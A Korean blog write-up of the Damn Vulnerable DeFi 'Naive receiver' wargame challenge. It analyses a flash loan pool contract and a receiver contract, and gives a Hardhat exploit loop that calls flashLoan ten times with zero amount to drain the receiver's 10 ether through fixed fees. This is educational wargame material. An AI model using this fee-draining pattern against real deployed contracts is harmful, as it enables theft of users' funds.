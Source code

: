 ```yaml
---
title: "DamnVulnerableDefi Naive receiver 풀이"
author: Grizzly
categories:
  - Wargame
tags:
  - DamnVulnerableDefi
  - NaiveReceiver
  - Writeup

sitemap :
changefreq : daily
priority : 1.0
# table of contents
toc: true # 오른쪽 부분에 목차를 자동 생성해준다.
toc_label: "table of content" # toc 이름 설정
toc_icon: "bars" # 아이콘 설정
toc_sticky: true # 마우스 스크롤과 함께 내려갈 것인지 설정
---
```


## Overview
`Unstoppable`에 이은 Damn Vulnerable Defi 워게임의 2번째 문제이다. 
(하지만, 여느 워게임이 그렇듯 문제간 연관성은 없다;P)

첫 번째 문제에 서술되어 있듯이, 이 워게임에서 제공되는 문제들은 `Solidity`로 작성된 스마트 컨트랙트 파일(들)과 `Javascript`로 작성된 익스플로잇 코드 템플릿을 제공한다. 익스플로잇 코드 템플릿은 `Hardhat`과 `Waffle` 프레임워크로 작성되어 크게 템플릿 코드가 크게 `before`, `it`, `after`로 구분된다. `before` 파트는 문제의 스마트 컨트랙트를 배포하고 초기 자본(?) 설정 등과 같은 초기화를 담당한다. `it` 파트에는 스마트 컨트랙트를 익스플로잇하기 위한 코드가 위치하며, 플레이어가 작성할 수 있도록 비워져있다. 마지막으로, `after` 파트에는 문제의 달성 조건이 작성되어있다. 

워게임 플레이어는 스마트 컨트랙트와 익스플로잇 코드의 after 파트를 확인해서, 문제의 방향을 확인해야 한다.
(물론, 워게임 [사이트](https://www.damnvulnerabledefi.xyz/)에도 글로 잘 작성되어 있다.)

본론으로 들어가서, 이 문제에서는 2개의 스마트 컨트랙트(`FlashLoanReceiver.sol`, `NaiveReceiverLenderPool.sol`)가 주어진다. `NaiveRecevierLenderPool`은 flashLoan 서비스를 제공하는 컨트랙트이고, 초기 자본 `1000 ether`를 가지고 있다. `FlashLoanReceiver`는 대출을 받는 컨트랙트이고, 초기 자본 `10 ehter`를 가지고 있다. 이 문제의 목표는 ***flashLoan 서비스를 통해 `NaiveReceiverLenderPool`이 `FlashLoanReceiver`가 가진 `10 ether`를 모두 가져가게 만드는 것이 목표다.***

## 컨트랙트 분석
사실 분석이라고 할 것까지도 없는 민망한 컨트랙트이지만, 제공된 2개의 컨트랙트의 기능을 확인해본다.

### NaiveReceiverLenderPool

~~~
    ...
    function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );
        
        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
    ...
~~~
가장 중요한 `flashLoan` 함수만 보면, 
1. 대출자의 주소(`borrower`)와 대출금액(`borrowAmount`)을 매개변수로 전달받아, 
2. 대출 전 잔액인 `balanceBefore`가 `borrowAmount`보다 크면, 
3. `borrower`(컨트랙트)의 `receiveEther` 함수를 호출한다. 
4. `receiveEther` 함수 호출시, 고정 수수료(`FIXED_FEE`)를 매개변수로 전달하고, trasaction value로 `borrowAmount`를 전달한다. 
5. 마지막으로, 상환된 금액을 체크한다. 
   
전체 컨트랙트 코드를 보면 알 수 있자만, `FIXED_FEE`는 `1 ether`로 설정되어 있다.

### FlashLoanReceiver

~~~
    ...
    // Function called by the pool during flash loan
    function receiveEther(uint256 fee) public payable {
        require(msg.sender == pool, "Sender must be pool");

        uint256 amountToBeRepaid = msg.value + fee;

        require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
        
        _executeActionDuringFlashLoan();
        
        // Return funds to pool
        pool.sendValue(amountToBeRepaid);
    }
    ...
~~~
여기에서도 `receiveEther` 함수만 살펴본다. 
1. 이 함수는 수수료(`fee`)를 매개변수로 전달받아, 
2. `msg.sender`가 `NaiveReceiverLenderPool` 컨트랙트인지 확인한다. 
3. 상환 금액인 `amountToBeRepaid`을 `msg.value`와 `fee`의 합으로 계산하고,
4. `amountToBeRepaid`가 현재 잔액 이하인 경우,
5. 대출금을 사용하는 `_executeActionDuringFlashLaon` 함수를 실행하고 (이 문제에서는 아무런 동작도 하지 않음),
6. `amountToBeRepaid`만큼 `NaiveReceiverLenderPool`에 상환한다.

## Solution
이 문제는 너무 쉬워서 풀이라 할 것도 없다... `FlashLoanReceiver`가 얼마를 대출하던 항상 수수료로 `1 ether`가 지출되기 떄문에 대출금을 `0`으로 설정하고 `flashLoan` 함수를 `10`번 호출하면, `FlashLoanReceiver`의 자본 `10 ether`를 모두 소진하게 된다.

~~~
    ...
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
        for (var i = 0;i < 10;++i) {
            await this.pool.connect(attacker).flashLoan(this.receiver.address, 0);
        }
    });
    ...
~~~

***EZ***

## References

* [Damn Vulnerable DeFi-Naive receiver](https://www.damnvulnerabledefi.xyz/challenges/2.html)